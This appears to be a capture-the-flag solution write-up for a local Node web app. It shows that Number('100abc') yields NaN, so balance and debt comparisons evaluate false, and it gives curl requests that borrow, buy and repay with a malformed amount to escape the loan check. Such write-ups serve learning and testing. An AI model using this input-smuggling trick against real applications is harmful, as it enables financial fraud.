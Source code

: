 # Solution
```javascript 
// ParseInt() and Number() have different behaviors 
parseInt("10abc") => 10
Number("10abc") => NaN

// Using this fact, we can byass the following check:
req.session.user.money < Number(amount) 

req.session.user.debtAmount < Number(amount)

Number("100abc") => NaN
req.session.user.debtAmount < NaN => false
req.session.user.money < NaN => false

```

## Borrow gold
```bash
curl http://localhost:3000/borrow?amount=100
```

## Buy Swampshade Serum
```bash
curl http://localhost:3000/buy?id=4
```

# Repay the loan
```bash
curl http://localhost:3000/repay?amount=100abc
```